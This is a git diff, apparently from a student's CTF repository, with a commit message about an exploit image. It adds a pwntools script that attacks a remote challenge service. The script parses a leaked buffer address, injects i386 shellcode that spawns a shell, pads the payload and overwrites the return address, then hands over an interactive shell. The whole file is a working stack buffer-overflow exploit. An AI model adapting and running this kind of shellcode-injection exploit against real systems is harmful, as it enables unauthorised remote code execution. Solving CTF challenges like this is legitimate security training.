

fixed exploit png

diff --git a/exploit.py b/exploit.py
@@ -1,0 +1,17 @@
+from pwn import *
+
+LOCAL = False
+
+if LOCAL:
+	p = process("./program")
+else:
+	p = remote("ctf-fsi.fe.up.pt",4001)
+
+p.recvuntil(b"Your buffer is ")
+address = p.recvuntil(b".")[:-1] #store the address
+
+address = p32(int(address,16)) #convert address
+code = asm(shellcraft.i386.linux.sh()) #obtain shell
+
+p.sendline(code + (b'\x11' * (108 - len(code))) + address)
+p.interactive()
